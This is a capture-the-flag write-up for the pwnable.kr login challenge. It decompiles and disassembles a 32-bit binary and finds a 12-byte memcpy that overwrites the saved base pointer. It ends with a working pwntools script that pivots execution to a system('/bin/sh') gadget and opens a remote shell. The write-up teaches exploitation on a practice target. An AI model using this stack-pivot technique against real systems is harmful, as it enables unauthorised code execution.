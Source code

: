 When exploiting a binary I always like to first play around with it
to get a general idea of what I am dealing with.
(Whether you run it on the server or in a VM it doesn't matter
just please don't run random binaries outside an isolated environment):

```
❯ nc pwnable.kr 9003
Authenticate : secret_key
hash : f88e77140e9e6d52cb34c1c1f6a61869
```

Ok, so, at first glance we can surmise that the program hashes a password and outputs the hash on the screen.
Now let's start with the actual analysis:

```
❯ file slogin
slogin: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=e09ec7145440153c4b3dedc3c7a8e328d9be6b55, not stripped
```

We are working with a 32-bit **statically linked** binary.
Let's decompile the main function (using Ghidra, IDA,or whatever software you prefer really)
and see what it does:

```
int main(void)

{
  void *decoded_str;
  char buf [30];
  uint decoded_len;

  memset(buf,0,0x1e);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stdin,(char *)0x0,1,0);
  printf("Authenticate : ");
  __isoc99_scanf(&DAT_080da6b5,buf);
  memset(&input,0,0xc);
  decoded_str = (void *)0x0;
  decoded_len = Base64Decode(buf,&decoded_str);
  if (decoded_len < 0xd) {
    memcpy(&input,decoded_str,decoded_len);
    if (auth(decoded_len) == 1) {
      correct();
    }
  }
  else {
    puts("Wrong Length");
  }
  return 0;
}
```
I renamed the variables to make it look clearer.
Since the `scanf` function deals with input it immediatelly struck me as a potential target.
Unfortunately dereferencing the address of the format string (`0x080da6b5`) in GDB yields: `"%30s"`.
This means that `scanf` will take up to 30 bytes of input which is the exact size of the buffer we pass it,
thus we can not take advantage of a buffer overflow here.

Geting back to the rest of the code we notice the `Base64Decode` function that was also present in the md5 calculator challenge.
It signals that our input is assumed to be encoded in Base64. Additionally, to get pass the `if` statement
we would also need the decoded input to be at most 12 bytes in length.
Now let's look at `auth`.
```
bool auth(size_t len)

{
  char buf1 [8];
  char *hash;
  char buf2 [8];

  memcpy(buf2,&input,len);
  hash = (char *)calc_md5(buf1,0xc);
  printf("hash : %s\n",hash);
  return strcmp("f87cd601aa7fedca99018a8be88eda34",hash) == 0;
}
```

We copy the decoded input into `buf2` (red flag: the decoded input can be up to 12 bytes long).
Then we hash the uninitialized `buf1` passing an invalid length argument?

When I first observed this I decided to run a little experiment to see whether the program was really
not hashing the user input:

```
❯ nc pwnable.kr 9003
Authenticate : AAAA
hash : 7968e02c61740a950a91500784fc81a1


❯ nc pwnable.kr 9003
Authenticate : AAAA
hash : 92308a678245d143ee332311edaeb300
```

As you can see this indeed is the case since it prints different hashes for the same input.
To understand and exploit the apparent bug in the `auth` function we should look at the disassembly:

```
❯ objdump --disassemble=auth -Mintel slogin

0804929c <auth>:
 804929c:	55                   	push   ebp
 804929d:	89 e5                	mov    ebp,esp
 804929f:	83 ec 28             	sub    esp,0x28
 80492a2:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80492a5:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80492a9:	c7 44 24 04 40 eb 11 	mov    DWORD PTR [esp+0x4],0x811eb40
 80492b0:	08
 80492b1:	8d 45 ec             	lea    eax,[ebp-0x14]
 80492b4:	83 c0 0c             	add    eax,0xc
 80492b7:	89 04 24             	mov    DWORD PTR [esp],eax
 80492ba:	e8 a1 03 02 00       	call   8069660 <memcpy>
 80492bf:	c7 44 24 04 0c 00 00 	mov    DWORD PTR [esp+0x4],0xc
 80492c6:	00
 80492c7:	8d 45 ec             	lea    eax,[ebp-0x14]
 80492ca:	89 04 24             	mov    DWORD PTR [esp],eax
 80492cd:	e8 b6 fe ff ff       	call   8049188 <calc_md5>
 80492d2:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80492d5:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80492d8:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80492dc:	c7 04 24 77 a6 0d 08 	mov    DWORD PTR [esp],0x80da677
 80492e3:	e8 48 23 01 00       	call   805b630 <_IO_printf>
 80492e8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80492eb:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80492ef:	c7 04 24 84 a6 0d 08 	mov    DWORD PTR [esp],0x80da684
 80492f6:	e8 f5 ef ff ff       	call   80482f0 <.plt+0xf0>
 80492fb:	85 c0                	test   eax,eax
 80492fd:	75 07                	jne    8049306 <auth+0x6a>
 80492ff:	b8 01 00 00 00       	mov    eax,0x1
 8049304:	eb 05                	jmp    804930b <auth+0x6f>
 8049306:	b8 00 00 00 00       	mov    eax,0x0
 804930b:	c9                   	leave
 804930c:	c3                   	ret
```
Observe that the pointer we pass to `memcpy` is actually `$ebp-0x14+0xc = $ebp-8`.
Given that the decoded input can be up to 12 bytes in length this means
we can overwrite the address holding the old base pointer.
Considering that the instruction pointer is fetched from the dereferenced `$ebp + 4`
we can find a target for `$eip` and overwrite the old base pointer to point four bytes before the address of that target like so:

```
decoded_input:
b'AAAA' + addr_of(malicious_code) + addr_of(decoded_input)
```

This assures that after we pop into `$ebp` twice(via the `ret` instruction) execution will continue
in `malicious_code`. What's left to figure out is what the malicious code will be?
We could directly jump to `system` but this would be tricky since `system` requires a string pointer as an argument
(which means we have to assure that a pointer to such string is stored at `$esp+4` when we return to `system`,
in other words this is highly unpleasent bussiness).
Instead we notice that in the `correct` function we already have a gadget which sets up `'/bin/sh'` as an argument
and calls system. We can simply jump to that gadget.

```
void correct(void)

{
  if (input == -0x21524111) {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}

0804925f <correct>:
 804925f:	55                   	push   ebp
 8049260:	89 e5                	mov    ebp,esp
 8049262:	83 ec 28             	sub    esp,0x28
 8049265:	c7 45 f4 40 eb 11 08 	mov    DWORD PTR [ebp-0xc],0x811eb40
 804926c:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 804926f:	8b 00                	mov    eax,DWORD PTR [eax]
 8049271:	3d ef be ad de       	cmp    eax,0xdeadbeef
 8049276:	75 18                	jne    8049290 <correct+0x31>
 8049278:	c7 04 24 51 a6 0d 08 	mov    DWORD PTR [esp],0x80da651
 804927f:	e8 4c 30 01 00       	call   805c2d0 <_IO_puts>
 8049284:	c7 04 24 6f a6 0d 08 	mov    DWORD PTR [esp],0x80da66f  <--- here is the gadget.
 804928b:	e8 20 20 01 00       	call   805b2b0 <__libc_system>
 8049290:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 8049297:	e8 04 14 01 00       	call   805a6a0 <exit>
```

This leaves us with the final exploit:

```
from pwn import *

elf = ELF('./slogin')
decoded_input = elf.symbols['input']
system_gadget = 0x8049284

payload = b64e(b'junk' + p32(system_gadget) + p32(decoded_input))
proc = remote('pwnable.kr', port=9003)
proc.sendline(payload)
proc.interactive()
proc.close()
```
